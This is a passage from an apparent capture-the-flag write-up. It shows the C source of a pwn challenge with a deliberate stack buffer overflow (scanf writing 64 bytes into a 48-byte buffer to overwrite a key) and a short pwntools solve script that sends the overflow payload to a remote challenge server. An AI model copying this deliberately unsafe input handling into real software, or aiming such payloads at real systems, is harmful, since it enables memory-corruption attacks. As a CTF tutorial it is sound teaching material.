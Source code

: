 ```c
        printf("Your flag is - ");
        while ((c = getc(flag_file)) != EOF) {
            printf("%c", c);
        }
        printf("\n");
    }
    else {
        printf("Could not find flag.txt\n");
    }
}

void vulnerable() {
    int key = 12;
    char buffer[0x30];

    printf("Enter a text please: ");
    scanf("%64s", buffer);

    if (key == 0x34333231) {
        win();
    }
}

int main() {
    vulnerable();
    return 0;
}
```


### Solve script

```python
from pwn import *

p = remote("94.72.112.248", 7001)

payload = b'a' * 60 + b'1234'

p.send(payload)
p.interactive()
```



## Nihil

![CTFd Image](https://gist.github.com/user-attachments/assets/ac3a1dd2-e1cc-48c2-bb2f-115af9be1457)


The next challenge was also pwn, and this was a bit more tricky and needed one to understand how the stack works. But this challenge is very similar to the first in general. 
